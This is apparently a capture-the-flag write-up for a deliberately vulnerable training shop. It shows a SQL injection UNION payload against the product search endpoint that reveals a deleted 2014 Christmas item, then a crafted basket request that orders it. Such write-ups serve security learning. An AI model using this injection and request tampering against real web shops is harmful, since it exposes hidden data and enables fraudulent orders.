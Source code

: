# Christmas Special

Order the Christmas special offer of 2014.

# Tools used

- Browser
- swisskyrepo/PayloadsAllTheThings
- Burpsuite
- Cyberchef

# Solve

Because the item is a 2014 special, we can asume the item is deleted.
From burpsuite, we know that `/rest/products/search?q=` is the vulnerable endpoint and the `?q=param` is the vulnerable parameter.
Send this payload as the parameter, but first encode it with url encoding

```
test')) UNION SELECT * FROM PRODUCTS WHERE deletedAt IS NOT NULL--
```

We find that the item's id is 10

![burpsuite](../../../assets/christmas-special-1.png)

```
{"status":"success","data":[{"id":10,"name":"Christmas Super-Surprise-Box (2014 Edition)","description":"Contains a random selection of 10 bottles (each 500ml) of our tastiest juices and an extra fan shirt for an unbeatable price! (Seasonal special offer! Limited availability!)","price":29.99,"deluxePrice":29.99,"image":"undefined.jpg","createdAt":"2025-09-09 11:41:55.871 +00:00","updatedAt":"2025-09-09 11:41:55.871 +00:00","deletedAt":"2025-09-09 11:41:56.241 +00:00"},
```

We order that item using burpsuite

![burpsuite](../../../assets/christmas-special-3.png)

```
{"ProductId":10,"BasketId":"1","quantity":1}
```

And continue to checkout from the browser

![christmas special item in the basket](../../../assets/christmas-special-3.png)